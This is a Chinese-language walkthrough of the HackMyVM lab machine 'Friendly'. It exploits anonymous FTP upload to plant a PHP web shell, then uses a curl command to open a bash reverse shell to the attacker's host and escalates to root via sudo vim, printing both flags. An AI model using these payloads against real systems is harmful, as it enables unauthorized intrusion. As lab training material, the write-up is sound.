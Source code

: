 # Friendly

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Friendly

[video](https://www.bilibili.com/video/BV1BoPTeQEfc/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

ftp 允许匿名登陆，有一个文件 index.html 就是 apache 的默认主页，同时发现匿名用户有上传文件 777 权限，直接上传 php 一句话脚本，然后反弹 shell 获得权限：

```
<?php system($_GET[1]);?>

curl -G --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/shell.php
```

发现系统中有用户 RiJaba1 并且能读取 user flag:

```
www-data@friendly:/home/RiJaba1$ cat user.txt
b8cff8c9008e1c98a1f2937b4475acd6
```

并且 sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/vim 直接提权到 root：

```
sudo vim -c ':!/bin/sh'
```

经过寻找在这里找到了 root flag：

```
root@friendly:/# cat /var/log/apache2/root.txt
66b5c58f3e83aff307441714d3e28d2f
```
